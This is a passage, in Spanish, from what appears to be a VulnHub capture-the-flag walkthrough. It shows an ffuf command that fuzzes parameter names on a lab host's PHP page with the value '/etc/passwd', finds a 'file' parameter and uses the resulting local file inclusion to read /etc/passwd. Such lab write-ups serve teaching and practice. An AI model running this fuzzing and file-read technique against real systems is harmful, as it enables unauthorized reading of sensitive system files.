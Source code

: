 Para ello, tendremos que indicarle a la herramienta que no muestre las peticiones cuya respuesta de palabras sea igual a 1.

```bash
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://10.10.10.5/blog-post/archives/randylogs.php?FUZZ=/etc/passwd' -t 200 -fw 1
```

Y obtenemos un resultado exitoso con el parámetro **file**, así que tenemos un **LFI**.

![picture](/assets/images/vulnhub/corr10.png)

Si nos vamos al navegador podremos ver el contenido del archivo "**/etc/passwd**".

![picture](/assets/images/vulnhub/corr11.png)
